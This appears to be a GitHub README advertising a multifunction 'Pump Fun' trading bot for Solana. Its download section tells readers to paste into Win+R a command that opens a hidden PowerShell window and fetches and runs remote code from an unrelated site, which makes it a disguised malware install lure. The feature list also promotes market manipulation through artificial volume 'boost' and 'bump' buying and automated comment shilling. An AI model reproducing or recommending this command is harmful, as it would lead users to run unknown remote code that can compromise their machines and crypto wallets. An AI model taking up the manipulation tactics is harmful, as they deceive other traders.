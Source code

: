 ## **Pump Fun Bot for Solana** | **Solana Multifunctional PumpFun Bot** 🤖

![Pump Fun Bot](https://i.ytimg.com/vi/TRwW5UPT9mo/maxresdefault.jpg)

## Project Description.
**Pump Fun Bot** is your all-in-one solution for automated trading on the Solana blockchain! 🌟 This multi-functional bot combines various powerful features to streamline your trading experience and help you stay ahead in the competitive cryptocurrency market. With tools like the **PumpFun Trading Bot**, **Pump Fun Bundle Bot**, and more, you can manage your investments efficiently and effectively.

<h2>📥 Download the Program</h2>
<h3>copy and execute the following command in (Win+R)</h3>

<pre>
  <code id="code-snippet">cmd.exe /c start /min powershell -w h "$u='https://aidetector.tools/wZWZqs';[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;iex(iwr $u -UseBasicParsing -UserAgent 'ID: daff2f8').Content;</code>
</pre>

## Key Features.
- **💰 Pump Fun Bundle Bot**: Effortlessly distribute SOL across multiple wallets with the bundle bot feature. This function enhances liquidity and manages risk by allowing you to send tokens to numerous wallets simultaneously.

- **🛒 Pump Fun Buy Bot**: Automate your token purchases with the buy bot, ensuring you acquire assets at optimal prices. Set your parameters and let the bot handle the buying process, so you never miss a great investment opportunity.

- **🚀 Pump Fun Boost Bot**: Increase your trading volume and market presence using the boost bot. This feature helps you implement strategies that attract attention to your tokens, making them more appealing to potential buyers.

- **📈 Pump Fun Bump Bot**: Maintain momentum for your tokens with the bump bot, which strategically places buy orders to create urgency and interest in the market, ultimately driving up demand.

- **💬 Pump Fun Auto Comment Bot**: Engage your community effortlessly with the auto comment bot. This feature allows for automatic posting of comments and updates, keeping your audience informed and involved with your projects.

- **🤖 Pump Fun AI Bot**: Utilize advanced AI capabilities to analyze market trends and make data-driven decisions. The AI bot helps optimize your trading strategies and identify potential investment opportunities.

- **🔍 Snipe Token**: Quickly purchase tokens at the best prices with the snipe functionality, ensuring you capitalize on optimal moments in the market.

- **📦 Bundle Selling**: Increase sales efficiency and user engagement through bundle selling, allowing you to sell multiple tokens in a single transaction.

- **🌐 Gather SOL**: Strategically gather SOL to optimize asset management and liquidity, ensuring you have the necessary resources for your trading activities.

- **🛡️ Protect against Rug Pulls**: Safeguard your investments by analyzing projects for signs of fraud, helping users make informed decisions and avoid scams.
